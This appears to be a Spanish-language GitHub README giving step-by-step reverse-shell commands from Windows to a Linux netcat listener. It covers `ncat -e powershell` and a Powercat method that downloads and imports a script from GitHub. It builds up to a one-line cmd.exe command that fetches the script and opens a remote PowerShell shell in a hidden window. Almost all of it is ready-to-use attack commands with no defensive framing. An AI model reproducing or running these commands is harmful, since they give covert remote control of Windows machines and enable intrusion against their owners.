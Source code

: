 # RemotePowerShells
Repositorio sobre shell remotas.

# Shell Remota entre Linux y Windows con Ncat

Este documento proporciona una guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat en Linux y Ncat en Windows, con la ventana de PowerShell en la máquina Windows.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```bash
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre cmd.exe.
2. Inicia una shell remota con la ventana de PowerShell con el siguiente comando:
   ```
   ncat -e powershell <ip-address> 4444
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.



# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
### Unificar descarga de Powercat, inicio de una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {Invoke-WebRequest 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
Este comando realiza las siguientes acciones:

1. Inicia un nuevo proceso de PowerShell con la ventana oculta.
2. Descarga el módulo Powercat e importa el módulo.
3. Establece la shell remota.

### Iniciar la shell desde cmd.exe

Aquí tienes el comando unificado que descarga Powercat, inicia una shell remota y oculta la ventana de PowerShell, todo en una sola línea desde un cmd.exe:
```
powershell -Command "& {Start-Process powershell -ArgumentList '-WindowStyle Hidden -Command & {Invoke-WebRequest ''https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}'}"
```
